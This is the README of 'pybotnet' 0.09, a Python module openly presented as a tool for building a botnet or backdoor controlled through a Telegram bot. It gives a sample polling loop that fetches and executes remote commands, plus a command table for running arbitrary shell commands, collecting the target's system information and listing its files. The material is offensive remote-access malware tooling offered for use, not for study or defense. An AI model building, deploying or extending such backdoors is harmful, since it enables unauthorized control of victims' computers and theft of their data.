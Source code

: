 # pybotnet  0.09

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [x] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | sample | DO THIS | Minimum version required |
--------|--------|---------|--------------------------|
do_sleep \<scconds> \<message (Optional)> | dosleep 99999 hi, i see you! | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | get_info |return system info | 0.06 |
cmd \<system command> | cmd ping google.com | run system command in shell or cmd (Be careful not to give endless command)| 0.07 |
ls \<route (Optional)> | ls C:\ , ls /home |Returns a list of folders and files in that path | 0.09
